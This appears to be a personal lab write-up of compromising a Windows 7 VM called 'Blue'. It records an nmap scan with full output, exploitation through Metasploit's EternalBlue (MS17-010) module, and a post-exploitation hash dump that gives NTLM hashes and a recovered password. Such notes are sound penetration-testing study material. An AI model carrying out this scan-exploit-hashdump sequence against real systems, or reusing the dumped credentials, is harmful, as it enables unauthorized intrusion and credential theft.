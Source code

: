 # ASSESSMENT NOTES


# Blue (172.16.2.128)
[26/July/2023] 6:43 - nmap scan

Findings - 
OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
Computer name: WIN-845Q99OO4PP

Potential Vulnerabilities Observed -
Windows 7 exploit - (https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/, (https://www.exploit-db.com/exploits/42315)

[26/July/2023] 7:07 - exploiting OS using msf

[26/July/2023] 7:40 - found password hashes

[26/July/2023] 7:55 - Found Root Password: Password456!

## nmap
nmap -T4 -A -p- 172.16.2.128   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 18:42 PKT
Nmap scan report for 172.16.2.128
Host is up (0.0017s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:45:A8:8C (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 000c2945a88c (VMware)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-26T09:49:38-04:00
| smb2-time: 
|   date: 2023-07-26T13:49:38
|_  start_date: 2023-07-26T13:22:32
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   1.66 ms 172.16.2.128

Nmap done: 1 IP address (1 host up) scanned in 416.11 seconds


## Exploitation


### OS- Exploit
targeting smb
metasploit has one -  exploit/windows/smb/ms17_010_eternalblue



## Post Exploitation


### hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::


